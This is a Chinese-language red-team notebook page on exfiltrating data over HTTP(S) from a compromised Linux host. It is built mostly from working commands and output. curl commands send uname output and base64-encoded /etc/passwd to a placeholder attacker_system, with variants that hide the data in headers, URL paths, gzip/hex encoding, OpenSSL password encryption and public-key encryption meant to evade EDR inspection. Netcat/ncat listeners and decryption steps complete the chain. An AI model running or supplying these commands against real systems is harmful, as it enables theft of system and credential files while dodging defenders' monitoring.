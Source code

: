 up::[[Red Team能力建设]]-[[初始访问 Initial Access]]-[[数据外传 Exfiltration]]
- # 基本形式
	```
	  受控机
	  curl -d `uname -a` http://attacker_system/
	  
	  接收机
	  nc -lp 80
	  POST / HTTP/1.1
	  Host: attacker_system
	  User-Agent: curl/7.68.0
	  Accept: */*
	  Content-Length: 31
	  Content-Type: application/x-www-form-urlencoded
	  
	  Linux 25b01d656003 5.10.47-linuxkit #1 SMP Sat Jul 3 21:51:47 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
	  
	```
- # 各种混淆
	```
	  受控机
	  curl -d `cat /etc/passwd | base64 -w0` http://attacker_system/
	  curl http://attacker_system/`uname -a | base64 -w0`
	  curl http://attacker_system/ -H  "Cookie: `uname -a | base64 -w0`"
	  curl -d `uname -a | gzip | base64 -w0` http://attacker_system
	  curl -d `uname -a | gzip | xxd -ps | tr -d '\n'` http://attacker_system/
	```
- # OpenSSL加密
	```
	  受控机
	  curl -d `uname -a | openssl enc -pass 'pass:EncryptMe' -md sha256 -aes-256-cbc -pbkdf2 -a -e` http://attacker_system/
	  
	  接收机
	  nc -lp 80
	  POST / HTTP/1.1
	  Host: attacker_system
	  User-Agent: curl/7.68.0
	  Accept: */*
	  Content-Length: 172
	  Content-Type: application/x-www-form-urlencoded
	  
	  U2FsdGVkX18/C90HEEv7tvzvU7JM/FRUQ9cGlhC5QporjmRYBwMLNc/VBbrOQFqp6GPQRu1T99GfwZUwDgOU8sItii//UAs4WoAxpVRcAg3cHOYKJ+ZUA3X4lS2Af/2J3zPKHeL6E3559Ife9X0hBk5zjfSfmFM00es2DTVYm+Q=
	```
	- 如上所示，我们使用curlPOST 对uname -a 进行数据外传，使用管道将 stdout 发送到openssl，使用密码加密。但需要注意的是，这种方法会在进程树的命令行参数中显示密码，某些EDR可能会捕获这些参数以供以后分析。最后，我们对输出进行base64编码并发送请求。以下是openssl的一些参数解释：
	- enc该命令允许我们使用密码来加密数据。
	- -pass该参数允许我们指定密码来加密数据。
	- -md用于从提供的密码创建密钥的消息摘要算法。OpenSSL 可能会根据安装默认使用不同的消息摘要算法，为了避免解密出现问题，最好专门设置此参数。
	- -aes-256-cbc我们希望用来加密数据的算法。
	- -pbkdf2使用具有默认迭代次数（通常为 10000 次迭代）的 PBKDF2 算法。这是一个比默认选项 openssl 提供的更安全的密钥派生过程。需要注意的是，这个标志只在 OpenSSL >= 1.1.1 中可用。
	- -a将输出编码为 Base64。这让我们可以base64 -w0像之前所做的那样跳过管道。
	- -e最后，这个标志告诉 openssl 加密传递给它的数据。在这种情况下，数据来自标准输入。
	- 使用以下方法进行解密
		```
		  openssl enc -pass 'pass:EncryptMe' -md sha256 -aes-256-cbc -pbkdf2 -a -d <<< U2FsdGVkX18/C90HEEv7tvzvU7JM/FRUQ9cGlhC5QporjmRYBwMLNc/VBbrOQFqp6GPQRu1T99GfwZUwDgOU8sItii//UAs4WoAxpVRcAg3cHOYKJ+ZUA3X4lS2Af/2J3zPKHeL6E3559Ife9X0hBk5zjfSfmFM00es2DTVYm+Q= 
		  Linux 25b01d656003 5.10.47-linuxkit #1 SMP Sat Jul 3 21:51:47 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
		 ```
- # 那么如何将进程树命令行参数中的密码隐藏呢？我们可以使用自己的公钥进行加密
	```
	  受控机
	  curl -k -d `openssl s_client -connect attacker_system:443 \
	  | openssl x509 -pubkey -noout  > /tmp/f; uname -a \
	  | openssl rsautl -inkey /tmp/f -pubin -encrypt \
	  | base64 -w0; rm /tmp/f` https://attacker_system/
	  
	  接收机
	  ncat -lp 443 -k --ssl --ssl-cert pub.crt --ssl-key priv.key
	  POST / HTTP/1.1
	  Host: attacker_system
	  User-Agent: curl/7.68.0
	  Accept: */*
	  Content-Length: 344
	  Content-Type: application/x-www-form-urlencoded
	  
	  HmuUgK05Sku7xBjBkxDeakgDnb9CkJIX5EYIC1oxOnSHxBzVG9hGh4BQeX9VwEp5OYxLX8mRNXCxmbHANdwy3/Bga4Mp+GFVhUZKr8haKHVrNa1dtfEvHlmDaMfESwcZy0Llmvl8+skOescVb6lSZLS/09HIAVdfyQo5DFM59KKGm9XZEMsXUAvR+1AmB5nsvIAKqBQY1nyr5IJc6+pzSK8d1gxTCTL/0D9gM2xnr6ZXmgthPogH2dy8olZLlYT+q6J/3ZpDijm1W4LyKZHO0WLjdS0mem9to/6GAi8cWZTySV+BvddF3jmkA8lfgOtL09JpjC9QrJ5sT7Ay+vDWuA==
	 ```
- 这次使用`ncat`是为了使用其内置的 SSL 解密功能进行解密，相关参数解释如下：
	- 从攻击系统中提取公钥并保存到文件中openssl s_client -connect attacker_system:443 | openssl x509 -pubkey -noout > /tmp/f
	- 执行所需的命令并使用 OpenSSL 和之前提取的公钥进行加密，然后对数据进行 base64 编码uname -a | openssl rsautl -inkey /tmp/f -pubin -encrypt | base64 -w0;
	- 删除包含公钥的文件rm /tmp/f
	- curl通过 HTTPS 将命令中的 base64 输出发布到攻击系统。
- 我们现在可以像这样解码和解密结果：
	```
	  base64 -d <<< SxYwWIC7ceUtsPGo3ETSPaCTMW9AdXWuyAR01AIBu0LLlHWDVa5uSP3J86vyyePaoybuoAEgvit5HQDNfL8fS1lSix/enb9UVCAn7hp/dZ9RGrtzqIRWFgHm0O4M69S1bHT1bn/3F0EiCZ53blulegKnxaCmSM64aO6c12dpJWD7A8QcJwG4R5J/owE9LbR5rJkmvTCf3bAD9FkvX5vD8GJmJkLhjaYa+mB6VZ67FcJdzUykfGJPsWOg5ju8nCTasxgjPR7Wsv7EXRoV7uia9u1yjfIpb5DloR2lqhfihvs4vuCmm23pJNZyIikSL0FyOGgQSps21mP0ri3UfRIryw== \
	      | openssl rsautl -inkey priv.key -decrypt
	      
	  Linux 25b01d656003 5.10.47-linuxkit #1 SMP Sat Jul 3 21:51:47 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
	```
- # 参考
	- https://medium.com/maverislabs/bash-tricks-for-command-execution-and-data-extraction-over-http-s-ca76e9c80933